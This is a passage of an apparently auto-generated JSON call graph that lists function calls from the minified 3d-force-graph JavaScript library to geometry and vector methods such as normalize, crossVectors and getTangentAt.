"EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTangentAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getUtoTmapping"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTangent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeFrenetFrames"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTangentAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "acos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "acos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "crossVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "initNonuniformCatmullRom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "initNonuniformCatmullRom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "initNonuniformCatmullRom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "initCatmullRom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "initCatmullRom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "initCatmullRom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "calc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "calc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPointAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTangent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTangentAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTangent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPointAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTangent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTangentAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTangent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addGroup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 